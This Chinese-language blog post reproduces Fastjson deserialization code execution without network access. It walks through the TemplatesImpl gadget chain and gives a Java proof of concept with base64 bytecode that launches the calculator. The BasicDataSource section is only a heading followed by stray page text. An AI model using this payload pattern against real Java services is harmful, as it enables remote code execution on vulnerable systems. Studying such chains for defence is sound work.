前言
在不出网的情况下Fastjson无法使用rmi之类的方法来rce，所以这次来复现一下Fastjson不出网情况下的利用。 为了方便复现，这里选择1.2.4版本的Fastjson。
利用类
1. com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
(需要parse或者parseObject第二个参数为Feature.SupportNonPublicField)
2. org.apache.tomcat.dbcp.dbcp2.BasicDataSource(需要dbcp或tomcat-dbcp的依赖)
TemplatesImpl
这种利用方式比较苛刻，需要parse或者parseObject第二个参数为Feature.SupportNonPublicField。
{kind=link}
跳过前面文章分析过的一些代码段，直接来看一下如何解析_bytecodes，以及怎么调用com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl这个类。 首先，来到com.alibaba.fastjson.serializer.ObjectArrayCodec#deserialze，这里调用parser.parseArray方法对字节数组进行解析。
{kind=link}
在该方法内又获取反序列化器进行反序列化操作，回调deserialze方法。
{kind=link}
到deserialze方法后，调用lexer.bytesValue获取bytes。
{kind=link}
这里对数据进行base64解码处理，将bytes数据返回。所以_bytecodes需要进行base64编码。
{kind=link}
根据@type和outputProperties调用com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties， 接着调用newTransformer方法。
{kind=link}
继续跟进一下getTransletInstance方法。
{kind=link}
来到getTransletInstance方法，这个_name没什么用直接跳过(只要不为空就不会直接返回null)。同时可以看到408行对_class数组中的class进行实例化， 所以重点看一下_class数组中class怎么来的。跟进对_class进行判空的if，这里调用了defineTransletClasses方法。
{kind=link}
可以看到loader.defineClass的值赋值给了_class数组，并且会获取_class的父类判断是否继承于ABSTRACT_TRANSLET， 否则会在下面的if中抛出异常。所以poc构造class需要继承自com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet。
{kind=link}
并且如果没有_tfactory，这里会进入doPrivileged抛出异常。
{kind=link}
这里也可以看到loader.defineClass方法确实能将base64解码后的_bytecodes转化为class。
{kind=link}
之后回到这里将_class数组中的class实例化。
{kind=link}
POC
public static void main(String[] args) throws Exception {
String bytecode = "yv66vgAAADQAJgoABwAXCgAYABkIABoKABgAGwcAHAoABQAXBwAdAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHAB4BAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWBwAfAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYHACABAApTb3VyY2VGaWxlAQAMVGVtcFBvYy5qYXZhDAAIAAkHACEMACIAIwEAKG9wZW4gL1N5c3RlbS9BcHBsaWNhdGlvbnMvQ2FsY3VsYXRvci5hcHAMACQAJQEAEEZhc3Rqc29uL1RlbXBQb2MBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAHAAAAAAAEAAEACAAJAAIACgAAAC4AAgABAAAADiq3AAG4AAISA7YABFexAAAAAQALAAAADgADAAAADQAEAA4ADQAPAAwAAAAEAAEADQABAA4ADwABAAoAAAAZAAAABAAAAAGxAAAAAQALAAAABgABAAAAEwABAA4AEAACAAoAAAAZAAAAAwAAAAGxAAAAAQALAAAABgABAAAAFwAMAAAABAABABEACQASABMAAgAKAAAAJQACAAIAAAAJuwAFWbcABkyxAAAAAQALAAAACgACAAAAGgAIABsADAAAAAQAAQAUAAEAFQAAAAIAFg==";
String payload = "{" +
"\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\", " +
"\"_bytecodes\": [\"" + bytecode + "\"], " +
"\"_name\": \"pwn\", " +
"\"_tfactory\": { }, " +
"\"_outputProperties\":{ }" +
"}";
JSON.parse(payload, Feature.SupportNonPublicField);
}BasicDataSource
There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.